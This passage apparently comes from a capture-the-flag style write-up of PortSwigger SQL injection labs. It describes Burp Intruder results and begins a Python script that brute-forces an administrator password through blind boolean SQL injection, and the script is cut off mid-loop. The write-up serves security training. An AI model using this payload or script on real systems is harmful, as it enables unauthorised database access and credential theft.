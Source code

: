 Then we click start attack!!

If you have burpsuite community edition it will take some time because it has to make 720 requests, after finishing we order by size and relate each position with its respective letter and we will get the administrator's password.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/sqli15.jpg)

Finally we order the position with its respective letter and we get the administrator's password

### Lab 11 - Python Script
This script will allow us to brute force the password, just change the session cookies for yours and it will do the job for you.

```python
import sys
import requests
import urllib3
import urllib

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'https://127.0.0.1:8080'}

def sqli_password(url):
    password_extracted = ""
    for i in range(1,21):
        for j in range(32,126):
            sqli_payload = "' and (select ascii(substring(password,%s,1)) from users where username='administrator')='%s'--" % (i,j)
            sqli_payload_encoded = urllib.parse.quote(sqli_payload)
```
